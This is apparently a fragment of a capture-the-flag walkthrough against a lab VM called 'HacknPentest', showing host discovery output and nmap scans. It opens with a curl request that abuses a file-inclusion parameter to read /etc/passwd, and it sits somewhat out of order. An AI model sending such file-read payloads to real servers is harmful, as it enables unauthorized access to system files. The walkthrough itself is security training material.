 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```

\____________________________________________________________________________\_

IP At MAC Address Count Len MAC Vendor / Hostname

\-----------------------------------------------------------------------------

192.168.20.1 00:50:56:c0:00:01 1 60 VMware, Inc.

192.168.20.149 00:0c:29:2c:25:11 1 60 VMware, Inc.

192.168.20.254 00:50:56:e2:32:bb 1 60 VMware, Inc.

Nmap
----

Nmap all ports scan:

root\@kali:\~\# nmap -p- 192.168.20.149

Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-09 10:40 EDT

Nmap scan report for 192.168.20.149

Host is up (0.00014s latency).

Not shown: 65533 closed ports

PORT STATE SERVICE

22/tcp open ssh

80/tcp open http

MAC Address: 00:0C:29:2C:25:11 (VMware)

Nmap version and default script scan:

root\@kali:\~\# nmap -sV -sC -A -p22,80 192.168.20.149

Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-09 10:41 EDT

Nmap scan report for 192.168.20.149

Host is up (0.00068s latency).

PORT STATE SERVICE VERSION

22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

\| ssh-hostkey:

\| 2048 8d:c5:20:23:ab:10:ca:de:e2:fb:e5:cd:4d:2d:4d:72 (RSA)

\| 256 94:9c:f8:6f:5c:f1:4c:11:95:7f:0a:2c:34:76:50:0b (ECDSA)

\|\_ 256 4b:f6:f1:25:b6:13:26:d4:fc:9e:b0:72:9f:f4:69:68 (ED25519)

80/tcp open http Apache httpd 2.4.18 ((Ubuntu))

\|_http-server-header: Apache/2.4.18 (Ubuntu)

\|_http-title: HacknPentest
```